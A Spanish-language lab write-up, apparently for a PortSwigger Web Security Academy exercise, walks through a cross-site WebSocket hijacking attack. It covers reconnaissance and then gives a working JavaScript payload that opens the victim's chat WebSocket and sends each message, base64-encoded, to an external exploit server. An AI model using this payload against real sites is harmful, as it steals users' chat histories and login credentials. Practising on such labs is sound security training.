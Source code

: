 El chat en vivo de este laboratorio es vulnerable al secuestro de WebSockets entre sitios (CSWSH). Para solucionar el problema, inicie sesión en la cuenta de la víctima.

Para ello, utilice el servidor de exploits proporcionado para ejecutar un ataque CSWSH que exfiltre el historial de chat de la víctima al servidor predeterminado de Burp Collaborator. El historial de chat contiene las credenciales de inicio de sesión en texto plano.


iniciamos el chat y de inmediato podemos recopilar información. sabemos que se llama `Hal Pline` y que su estatus es `CONNECTED`
![[Pasted image 20250721132918.png]]

analizando la solicitud vemos el encabezado `X-Frame-Options: SAMEORIGIN` indica que la página web solo puede ser mostrada en un frame si el sitio que intenta incrustarla está en la misma origen (dominio, esquema y puerto) que la página original
![[Pasted image 20250721133525.png]]

analizando todos los endpoints de la web nos damos cuenta que todos cuenta con la etiqueta `X-Frame-Options: SAMEORIGIN` pero al analizar la solicitud de un post encontramos un endpoints diferente. 
![[Pasted image 20250721133911.png]]

`https://cms-0a9500be04bf9ea5811070e6005900ee.web-security-academy.net` 
este endpoint nos lleva a una web de login donde podemos hacer una comprobación rápida para vulnerabilidades CSRF y logramos identificarla de la siguiente manera.
![[Pasted image 20250721134247.png]]

en el WebSockets History podemos ver el mensaje que hacemos al servidor y su contenido
![[Pasted image 20250721134538.png]]

y también el mensaje que regresa el servido
![[Pasted image 20250721134733.png]]

podemos enviar esta petición al repeater para ver como la respuesta y todos los mensajes que hemos intercambiado con el WebSocket
![[Pasted image 20250721162752.png]]

ahora bien. podemos ver que la dirección del websocket esta definida en la cabecera de respuesta del mensaje lo cual será útil para luego hacer nuestro ataque CSRF
![[Pasted image 20250721163118.png]]

por ultimo encontramos la funcion del chat 
![[Pasted image 20250721164204.png]]

necesitamos hacer algunas modificaciones al codigo.

```python
let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

newWebSocket.onopen = function (evt) {
writeMessage("system", "System:", "No chat history on record");
newWebSocket.send("READY");
res(newWebSocket);
}

newWebSocket.onmessage = function (evt) {
var message = evt.data;
};
```

no necesitamos el atributo `chatForm.getAttribute("action")` ya que este será la dirección de nuestro websocket. es decir la web de login que hemos encontrado.  tampoco vamos a necesitar el `writeMessage` porque no queremos escribir un mensaje. solo queremos enviarlo

```python
<script> 
var newWebSocket = new WebSocket(
"wss://0a8d00d8044c76f98091034900f9004e.web-security-academy.net/chat"
);

newWebSocket.onopen = function (evt) {
	newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
	var message = evt.data;
	fetch(
	"https://exploit-0a130040047576bc80e70294011400d5.exploit-server.net/exploit?messge=" + btoa(message)
	);
}; 
</script>
```

enviamos nuestra carga útil usando el servidor proporcionado por la web
![[Pasted image 20250721171825.png]]

ahora analizamos los log del servidor y encontramos una solicitud `GET` con un mensaje de respuesta
![[Pasted image 20250721171806.png]]

